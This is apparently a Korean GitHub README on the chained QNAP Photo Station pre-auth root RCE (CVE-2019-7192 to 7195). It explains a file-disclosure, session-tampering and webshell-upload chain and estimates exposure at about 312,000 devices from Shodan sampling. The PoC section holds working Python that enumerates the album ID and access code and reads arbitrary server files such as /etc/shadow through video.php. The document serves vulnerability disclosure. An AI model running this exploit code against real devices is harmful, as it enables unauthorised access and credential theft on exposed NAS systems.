 # QNAP Pre-Auth Root RCE (CVE-2019-7192 ~ CVE-2019-7195)
* Date : May 2019
* Credit : [CyCraft](https://cycrafttechnology.medium.com/)
* CVSS : [9.8](https://nvd.nist.gov/vuln/detail/CVE-2019-7192)
* Affected Versions : QNAP NAS devices running Photo Station (6.0.3, 5.2.11, 5.4.9)

## Description
본 익스플로잇은 다음의 3가지 취약점을 연결하여 트리거할 수 있다. QNAP PSIRT 팀의 요청으로 인해 민감한 내용들은 모두 삭제되어 자세한 정보는 확인할 수 없었다. 

### Vulnerability 1 : Pre-Auth Local File Disclosure to Privilege Escalation
인증을 통과하지 않고도 QNAP 서버의 파일을 읽을 수 있는 취약점이다. 그중에서 `login token`을 포함하는 파일(e.g., /etc/passwd, /ect/shadow)을 읽어서 유효한 사용자 인증 토큰을 획득하여 정상적으로 로그인할 수 있다. 대부분의 파일들은 암호화되어 있는데 PhotoStation 기능에서는 해당 패스워드 정보를 평문으로 캐시에 저장한다. 해당 캐시 파일을 읽으면 `appuser` 권한으로 로그인할 수 있다.

### Vulnerability 2 : Authenticated Session Tampering — Writing PHP Code to Session
`appuser` 권한으로 로그인하면 SMTP 설정에 접근할 수 있다. 해당 설정을 통해 기존 이메일 문자열 검증 루틴을 해제할 수 있고, 이를 통해 Vulnerability 3(웹쉘 업로드)와 연결하여 RCE를 획득할 수 있다.

### Vulnerability 3 : (Pre-Auth) Writing Session to Arbitrary Location
해당 취약점을 이용하면 인증받지 않은 사용자가 QNAP 서버의 임의의 경로에 세션 정보를 저장할 수 있다. 이를 이용하여 PhotoStation 웹 디렉토리에 임의의 세션 정보를 저장하여 웹쉘 파일을 업로드할 수 있고 결국 RCE 권한을 획득하게 된다.

## PoC
```python
# hide ssl error
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_file_content(file):
    post_data = {'album': album_id, 'a': 'caption', 'ac': access_code, 'f': 'UMGObv', 'filename': file}
    file_read_response = req.post(url + "/photo/p/api/video.php", data=post_data, headers=headers, verify=False, timeout=10)

    print("="*65) ; print("{0} file content;\n{1}" .format(file,file_read_response.text))

url = sys.argv[1].rstrip('/')
headers = {"User-Agent": "Gundy - QNAP RCE"}

# for session cookie
req = requests.Session()

#######################################################################
# search album_id

print("="*65)
post_data = {'a': 'setSlideshow', 'f': 'qsamplealbum'}
album_id_response = req.post(url + "/photo/p/api/album.php", data=post_data, headers=headers, verify=False, timeout=10)

if album_id_response.status_code != 200:
    print("album id not found \n\033[91mnot vulnerable\033[0m")
    sys.exit(0)
    
album_id = re.search('(?<=<output>).*?(?=</output>)', album_id_response.text).group()

print("album_id     ==>  " + album_id)

#######################################################################
# search $_SESSION['access_code'] 

access_code_response = req.get(url + "/photo/slideshow.php?album=" + album_id, headers=headers, verify=False, timeout=10)
if access_code_response.status_code != 200:
    print("slideshow not found \n\033[91mnot vulnerable\033[0m")
    sys.exit(0)
    
access_code = re.search("(?<=encodeURIComponent\\(').*?(?=')", access_code_response.text).group()

print("access_code  ==>  " + access_code)
```

## Impact
![shodan](./img/shodan.png)  
쇼단 서비스를 이용해 전 세계적으로 564,000개의 QNAP 서버를 식별할 수 있었고, 임의로 추출한 1065 표본에서 590개가 Photo Station 기능이 활성화되어 있었다. 통계학적으로 신뢰도 95%로 계산한 결과 대략적으로 312,000개의 기기가 취약한 것으로 보인다.


## Reference
- [CyCraft Writeup](https://cycrafttechnology.medium.com/qnap-pre-auth-root-rce-affecting-312k-devices-on-the-internet-fc8af285622e)
- [QNAP's Security Advisory](https://www.qnap.com/zh-tw/security-advisory/nas-201911-25)